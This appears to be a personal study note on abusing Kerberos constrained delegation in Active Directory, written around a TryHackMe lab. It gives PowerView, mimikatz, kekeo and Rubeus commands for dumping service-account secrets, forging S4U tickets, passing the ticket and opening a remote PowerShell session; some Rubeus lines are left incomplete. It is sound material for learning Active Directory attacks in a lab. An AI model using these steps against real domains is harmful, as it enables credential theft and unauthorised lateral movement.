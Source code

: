 # Kerberos delegation

> Note that "Kerberos delegation" and "Permission delegation" are 2 different terms. When "AD delegation" is mentioned, it usually refers to "Kerberos delegation".

## Resources

1. **Constrained delegation abuse**

{% embed url="https://docs.specterops.io/ghostpack/rubeus/constrained-delegation-abuse" %}

2. **PowerShell remoting**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5" %}

3. **PowerView**

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}



## Important notice

The examples shown below uses the [kekeo](https://github.com/gentilkiwi/kekeo) tool, which is not maintained anymore and may not work as expected. However, the command examples are used to illustrate the basic workflow of the process in a lab environment ([TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room), along with explanations based on my understanding.

[Rubeus](https://github.com/GhostPack/Rubeus) is a tool that is heavily adapted from the _kekeo_ project, and provides similar functionalities. For all the commands shown in kekeo, I aim to provide the equivalent commands; in terms of functionality, in Rubeus.

## Constrained vs Unconstrained delegation

1. **Unconstrained**&#x20;

* service accounts have no limits on the delegation
* this means that they are able to access any services



2. **Constrained**&#x20;

* service accounts can only be delegated to certain specified services
* this means that they can only access certain controlled services

## Exploitation steps

#### Step 1

Given that we have breached a machine, and gained administrative access, we can first try to retrieve credentials of any service accounts that are present on the current host. To achieve this, we can use cmdlets from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):&#x20;

```powershell
PS C:\> Import-Module C:\dir\to\PowerSploit\PowerView.ps1
PS C:\> Get-NetUser -TrustedToAuth
```

Next, we can use **mimikatz** to dump the secrets:

```powershell
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

#### Step 2

Now that we have the secrets (password), we can use it to retrieve the _Ticket Granting Ticket_ (TGT). Next, we can generate the _Ticket Granting Service_ (TGS) for a particular service that our identified service account (step 1) can delegate.

{% code overflow="wrap" %}
```powershell
kekeo # tgt::ask /user:<username> /domain:<domain> /password:<password>

C:\> rubeus.exe s4u ... 
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>

C:\> rubeus.exe ... 
```
{% endcode %}

#### Step 3

Now that we have retrieved the _Ticket Granting Service_ (TGS) for our desired service, we can use it to perform a _Pass-the-Ticket_ attack, which will allow us to authenticate to the service we have identified earlier.

{% code overflow="wrap" %}
```powershell
mimikatz # privilege debug
mimikatz # kerberos::ptt ...
mimikatz # exit
```
{% endcode %}

#### Exploiting PowerShell remoting

According to the [TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room, [PowerShell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5) uses the HTTP and WSMAN services as well. This means that we can use the TGT we have retrieved to create TGS for both HTTP and WSMAN, before performing a _Pass-the-Ticket_ attack, which will allow us to gain a remote session on a target machine.

{% code overflow="wrap" %}
```powershell
PS> Get-Netuser -TrustedToAuth
...
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}
...
```
{% endcode %}

> Note that we have to generate the TGS for both the HTTP and WSMAN services

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:http/<target>
Ticket in file 'TGS_http_xxxx'

kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:wsman/<target>
Ticket in file 'TGS_wsman_xxxx'
```
{% endcode %}

Perform _Pass-the-Ticket_ with the newly created **TGS**:

```powershell
mimikatz # kerberos::ptt TGS_http_xxxx
mimikatz # kerberos::ptt TGS_wsman_xxx

mimikatz # exit
```

> Refer to the "PowerShell remoting" resource in the Resources section above

{% code overflow="wrap" %}
```powershell
PS C:\> New-PSSession -ComputerName <computer_name>
...

PS C:\> Enter-PSSession -ComputerName <computer_name>
[xxxx]: PS C:\Users\<username> whoami
user_xxx
```
{% endcode %}

